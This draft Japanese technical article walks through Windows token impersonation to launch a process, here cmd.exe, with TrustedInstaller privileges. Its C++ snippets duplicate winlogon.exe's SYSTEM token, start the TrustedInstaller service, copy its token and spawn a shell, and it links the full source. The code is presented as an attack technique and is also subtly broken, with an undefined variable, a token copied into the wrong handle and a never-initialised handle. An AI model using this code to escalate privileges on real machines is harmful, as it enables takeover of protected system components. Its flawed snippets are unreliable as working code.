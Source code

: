 ```yaml
---
title: "最高権限(TrustedInstaller)でプロセスを起動する方法とコード"
emoji: "🦔"
type: "tech" # tech: 技術記事 / idea: アイデア
topics: ["セキュリティ", "windows", "cpp"]
published: false
---
```


トークン偽装攻撃について実際のコードと一緒に備忘録として残します。
Windowsにはプロセスのアクセス管理の仕組みとしてアクセストークンという手法を用いています。
各プロセスにはアクセス権限情報を持ったアクセストークンが割り当てられており、対応する権限があれば複製をすることができます。
トークン偽装攻撃は自プロセスよりも高い権限が付与されたアクセストークンを複製し、
自プロセスに割り当てることでWindowsの最高権限であるTrustedInstallerに昇格することを指します。
以下コードはすべてC++で、呼んでいる関数は明記しない限りすべてWin32 APIのものになります。

## 用語の解説

### プライマリアクセストークン

ユーザーの権限(セキュリティコンテキスト)が記録されたトークン。
ユーザーが起動するプロセスはプライマリアクセストークンが継承されて付与されます。

### 　偽装トークン

Windowsには仕様として他のユーザーのセキュリティコンテキストを持ったトークンを利用してスレッドを実行することができる機能が提供されています。
これを偽装トークンと呼びます。
偽装トークンを用いることでアクセス制御の処理を簡略することができます。
たとえば、ファイルサーバーがクライアントに対してファイルのアクセス権限をチェックする場合を考えます。
クライアントのセキュリティコンテキストを取得してアクセス権限のチェックを行うよりも、
クライアントのアクセストークンを偽装トークンとして複製してからそのファイルにアクセスすればアクセス権限のチェックをWindowsに委譲することができます。
こうすることで、サーバープログラムはWindowsのアクセス制御の仕組みの変更に対して強くなります。

以下にさらに詳しく説明されています。
<https://blog.nflabs.jp/entry/2021/12/20/094644>
<https://github.com/windows-internals-guide/security/blob/57920913cfe745baf728aa488efa7a5e43dad069/7.4.2.d_%E5%81%BD%E8%A3%85.MD>
<https://github.com/windows-internals-guide/security/blob/57920913cfe745baf728aa488efa7a5e43dad069/7.6.3_%E5%BC%B7%E5%8A%9B%E3%81%AA%E7%89%B9%E6%A8%A9.MD>

## 昇格までの流れ

1. SYSTEM権限で起動しているプロセスからアクセストークンを複製
1. 現在のプロセスに複製したアクセストークンを付与
1. SYSTEM権限でTrustedInstaller.exeを起動する。
1. 起動したTrustedInstaller.exeのアクセストークンを複製
1. 複製したアクセストークンを付与した新しいプロセスを起動する。
1. プロセスがTrustedInstaller権限で起動する。

## SYSTEM権限のアクセストークンを複製

Windowsのログオン機能をつかさどるwinlogon.exeはSYSTEM権限で起動されています。
そのため、winlogon.exeにはSYSTEM権限のアクセストークンが紐づけられています。
以下関数を利用してwinlogon.exeのアクセストークンを偽装トークン(TokenImpersonation)としてコピーします。
そのあと複製した偽装トークンを現在のプロセスに割り当てます。

```cpp
// winlogon.exeのプロセスのハンドルを取得。(pidはwinlogon.exeのプロセスID)
HANDLE hProcessWinlogon = OpenProcess(PROCESS_QUERY_INFORMATION, TRUE, pid);
// winlogon.exeのプロセスハンドルからアクセストークンのハンドルを取得
HANDLE hTokenWinlogon;
OpenProcessToken(hProcessWinlogon, TOKEN_ASSIGN_PRIMARY | TOKEN_DUPLICATE | TOKEN_IMPERSONATE | TOKEN_QUERY, &hTokenWinlogon); 
//DuplicateProcessToken関数を使用してして偽装トークンとして複製し、ハンドルを取得。
HANDLE hImpersonationToken;
DuplicateTokenEx(hTokenWinlogon, MAXIMUM_ALLOWED, NULL, SecurityImpersonation, TOKEN_TYPE::TokenImpersonation, &hImpersonationToken)
```

:::message
OpenProcessToken()の第２引数について

TOKEN_ASSIGN_PRIMARY - プライマリトークンをプロセスにアタッチするための権限
TOKEN_DUPLICATE - アクセストークンを複製する権限
TOKEN_IMPERSONATE - 偽装アクセストークンをプロセスにアタッチするための権限
TOKEN_QUERY - アクセス トークンのクエリを実行するための権限

さらに詳しくは以下に記載されています。
<https://learn.microsoft.com/ja-jp/windows/win32/secauthz/access-rights-for-access-token-objects>
:::

関数のリファレンス

OpenProcess
<https://learn.microsoft.com/ja-jp/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocess>
OpenProcessToken
<https://learn.microsoft.com/ja-jp/windows/win32/api/processthreadsapi/nf-processthreadsapi-openprocesstoken>
DuplicateTokenEx
<https://learn.microsoft.com/ja-jp/windows/win32/api/securitybaseapi/nf-securitybaseapi-duplicatetokenex>

## 現在のプロセスに複製したアクセストークンを付与

後述するTrustedInstallerサービスを起動するために、複製したSYSTEM権限を持つアクセストークンを自プロセスに付与することで自プロセスをSYSTEM権限に昇格させます。

```cpp
 // 現在のプロセスのハンドルを取得
 HANDLE hCurrentThread = GetCurrentThread();
 // 複製したアクセストークンを現在のスレッドに割り当てる。
 // hImpersonationTokenには前項で複製したwinlogin.exeのアクセストークンのハンドルが入る
 SetThreadToken(&hCurrentThread, hImpersonationToken);
```

関数のリファレンス

GetCurrentThread
<https://learn.microsoft.com/ja-jp/windows/win32/api/processthreadsapi/nf-processthreadsapi-getcurrentthread>
SetThreadToken
<https://learn.microsoft.com/ja-jp/windows/win32/api/processthreadsapi/nf-processthreadsapi-setthreadtoken>

## 起動したTrustedInstaller.exeのアクセストークンを複製

TrustedInstallerに昇格するにはTrustedInstaller権限のアクセストークンが付与されているプロセスが必要です。
WindowsのTrustedInstallerサービスはSYSTEM権限で起動することができ、そのプロセスのアクセストークンにはTrustedInstallerの権限が付与されています。
それを利用して起動したTrustedInstaller.exeからアクセストークンを複製します。

### TrustedInstaller サービスの起動

```cpp
// TrustedInstaller サービスの起動
SC_HANDLE hTrustedInstallerService = OpenServiceW(OpenSCManagerW(NULL, NULL, SC_MANAGER_ALL_ACCESS), L"trustedinstaller", MAXIMUM_ALLOWED);
SERVICE_STATUS_PROCESS lpBuffer = {};
DWORD pcbBytesNeeded;
// サービスの状況を問い合わせ。lpBufferにサービス情報が入り、lpBuffer.dwProcessIdにプロセスIDが格納される。
QueryServiceStatusEx(hTrustedInstallerService, SC_STATUS_PROCESS_INFO, (BYTE*)&lpBuffer, sizeof(ssp), &pcbBytesNeeded)
```

関数のリファレンス
OpenServiceW
<https://learn.microsoft.com/ja-jp/windows/win32/api/winsvc/nf-winsvc-openservicew>
OpenSCManagerW
<https://learn.microsoft.com/ja-jp/windows/win32/api/winsvc/nf-winsvc-openscmanagerw>
QueryServiceStatusEx
<https://learn.microsoft.com/ja-jp/windows/win32/api/winsvc/nf-winsvc-queryservicestatusex>

### trustedinstaller.exeのトークンを複製

```cpp
// TrustedInstaller.exeのアクセストークン 
// 複製したのアクセストークン
HANDLE hTruestedInstallerToken;
HANDLE hPrimaryToken;
DuplicateTokenEx(hTruestedInstallerToken, MAXIMUM_ALLOWED, NULL, SecurityImpersonation, TOKEN_TYPE::TokenPrimary, &hImpersonationToken)
```

## プロセスがTrustedInstaller権限で起動する

あとは作成するプロセスにTrustedInstallerのアクセストークンを付与することで、TrustedInstallerに昇格することができます。

```cpp
// コマンドプロンプト
const LPCWSTR targetExecutable = L"C:\\Windows\\System32\\cmd.exe";
STARTUPINFO si = {};
PROCESS_INFORMATION pi = {};
// コマンドプロンプトをTrustedInstaller権限のアクセストークンを付与して起動する。
// hTruestedInstallerToken前項で複製したTrustedinstaller.exeのアクセストークン
CreateProcessWithTokenW(hTruestedInstallerToken, LOGON_NETCREDENTIALS_ONLY, targetExecutable, NULL, CREATE_NEW_CONSOLE, NULL, NULL, &si, &pi);
```

以下のようになれば成功です。
アカウント名が「dev」から「nt authority\system」になっています。
![シェル起動の例](/images/c54054307260f7/image.png)
**

関数のリファレンス
CreateProcessWithTokenW
<https://learn.microsoft.com/ja-jp/windows/win32/api/winbase/nf-winbase-createprocesswithtokenw>

## まとめ

以上のプロセスでTrustedInstaller権限でプロセスを立ち上げることができます。
全体のソースコードは以下にあります。ダウンロードの際はセキュリティソフトに検知されますのでお気を付けください。
<https://github.com/takafumiokamoto/RunAsTrustedInstaller>
また、実装にあたり以下リポジトリを参考にさせていただきました。
ありがとうございます。
<https://github.com/wilszdev/GetTrustedInstallerShell>

## 参考記事

<https://book.hacktricks.xyz/v/jp/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens>
<https://blog.nflabs.jp/entry/2021/12/20/094644>

